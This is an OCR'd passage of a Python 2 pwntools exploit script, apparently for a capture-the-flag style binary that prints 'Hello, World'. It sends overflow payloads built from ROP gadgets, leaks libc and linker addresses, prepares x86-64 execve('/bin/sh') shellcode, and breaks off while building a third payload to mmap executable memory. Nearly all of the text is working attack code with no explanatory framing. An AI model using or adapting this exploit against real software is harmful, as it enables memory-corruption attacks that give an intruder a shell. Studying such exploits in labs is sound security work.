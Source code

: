 ```
 p.recvuntil("Hello, World\n")

 print "\n#############sending payload1#############\n"
 p.send(payload1)
 sleep(1)

 write_addr = u64(p.recv(8))
 print "write_addr: " + hex(write_addr)
 mmap_addr = write_addr - off_mmap_addr
 print "mmap_addr: " + hex(mmap_addr)
 pop_rax_ret = write_addr - off_pop_rax_ret
 print "pop_rax_ret: " + hex(pop_rax_ret)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=linker_point, rdx=4)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)

 p.recvuntil("Hello, World\n")

 print "\n#############sending payload2#############\n"
 p.send(payload2)
 sleep(1)

 #raw_input()

 linker_addr = u64(p.recv(8))
 print "linker_addr + 0x35: " + hex(linker_addr + 0x35)

 p.recvuntil("Hello, World\n")

 shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
               "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
               "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )
               

 # GADGET
 # 0x7ffff7def235 <_dl_runtime_resolve+53>: mov r11,rax
 # 0x7ffff7def238 <_dl_runtime_resolve+56>: mov r9,QWORD PTR [rsp+0x30]
 # 0x7ffff7def23d <_dl_runtime_resolve+61>: mov r8,QWORD PTR [rsp+0x28]
 # 0x7ffff7def242 <_dl_runtime_resolve+66>: mov rdi,QWORD PTR [rsp+0x20]
 # 0x7ffff7def247 <_dl_runtime_resolve+71>: mov rsi,QWORD PTR [rsp+0x18]
 # 0x7ffff7def24c <_dl_runtime_resolve+76>: mov rdx,QWORD PTR [rsp+0x10]
 # 0x7ffff7def251 <_dl_runtime_resolve+81>: mov rcx,QWORD PTR [rsp+0x8]
 # 0x7ffff7def256 <_dl_runtime_resolve+86>: mov rax,QWORD PTR [rsp]
 # 0x7ffff7def25a <_dl_runtime_resolve+90>: add rsp,0x48
 # 0x7ffff7def25e <_dl_runtime_resolve+94>: jmp r11

 shellcode_addr = 0xbeef0000

 #mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
 payload3 = "\x00"*136
 payload3 += p64(pop_rax_ret) + p64(mmap_addr)
